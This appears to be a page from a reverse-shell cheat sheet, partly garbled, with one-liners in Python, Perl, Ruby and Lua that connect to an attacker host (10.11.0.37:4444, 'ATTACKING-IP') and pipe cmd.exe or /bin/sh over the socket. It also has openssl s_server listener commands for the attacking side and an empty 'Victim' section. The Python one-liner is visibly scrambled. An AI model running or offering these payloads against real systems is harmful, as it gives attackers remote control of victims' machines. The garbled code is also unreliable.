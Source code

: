 ```
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib')|[[[[[[(s.connect(('10.11.0.37', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0]]"
```
```
## Perl

```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
```
## Ruby

```bash
#Windows
ruby -rsocket -e 'c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
```
## Lua

```bash
lua5.1 -e 'local host, port = "127.0.0.1", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
```
## OpenSSH

Attacker (Kali)

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response
```
```
Victim

```
